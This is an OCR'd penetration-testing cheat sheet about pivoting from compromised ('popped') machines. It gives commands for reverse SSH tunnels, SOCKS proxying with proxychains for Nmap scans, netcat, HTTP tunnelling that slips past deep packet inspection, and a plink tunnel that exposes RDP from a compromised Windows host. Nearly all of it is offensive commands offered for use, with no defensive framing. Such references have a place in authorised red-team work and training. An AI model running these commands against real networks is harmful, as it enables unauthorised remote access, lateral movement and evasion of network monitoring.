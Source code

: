 **        Create reverse SSH tunnel from Popped machine on :2222
**

```
        ssh -f -N -R 2222:$ip:22 root@$ip

```


**        Create a Dynamic application-level port forward on 8080 thru 2222
**

```
        ssh -f -N -D $ip:8080 -p 2222 hax0r@$ip

```


**        Leverage the SSH SOCKS server to perform Nmap scan on network using proxy chains
**

```
        proxychains nmap --top-ports=20 -sT -Pn $ip/24

```


**    HTTP Tunneling
**

```
    nc -vvn $ip 8888

```


**    Traffic Encapsulation - Bypassing deep packet inspection
        http_tunnel**
        On server side:


```
        sudo hts -F <server_ip_addr>:<port_of_your_app> 80

```

        On client side:
    

```
    sudo htc -P <my_proxy.com:proxy_port> -F <port_of_your_app> <server_ip_addr>:80
        stunnel

```


**    Tunnel Remote Desktop (RDP) from a Popped Windows machine to your network
**
        Tunnel on port 22


```
        plink -l root -pw pass -R 3389:$ip:3389 $ip

```
